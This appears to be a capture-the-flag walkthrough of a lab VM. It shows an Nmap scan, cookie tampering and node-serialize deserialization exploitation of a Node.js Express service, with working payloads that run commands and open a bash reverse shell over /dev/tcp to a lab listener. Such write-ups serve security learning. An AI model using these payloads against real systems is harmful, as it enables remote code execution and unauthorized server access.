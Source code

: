 

Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.103
Host is up (0.00088s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.103:666
Under Construction, Come Back Later!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After running the request through Burp we can see the Cookie has a value for profile
After decoding it we get  
![Alt Tag]()


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMTIn0%3D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We change the profile value, in {"username":"Admin"}, Base 64 encode it and resubmit it to the server.
![Alt Tag]()

We take a look at some serialization with node js
Resource for RCE NODE.js serialization .
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

We change the value of the cookie

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('whoami',(e,out,err)=>{console.log(out);}); }()"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After resubmitting the request with this payload we can see that we are running commands on the server, as user : nodeadmin
![Alt Tag]()


Trying to get a reverse shell on the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('bash -i >& /dev/tcp/192.168.56.102/1234 0>&1',(e,out,err)=>{console.log(out);}); }()"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Alt Tag]()


Sending this to repeater we get a reverse shell on the listening 1234 port open on Kali.


![Alt Tag]()


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 44214
bash: cannot set terminal process group (814): Inappropriate ioctl for device
bash: no job control in this shell
[nodeadmin@localhost ~]$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
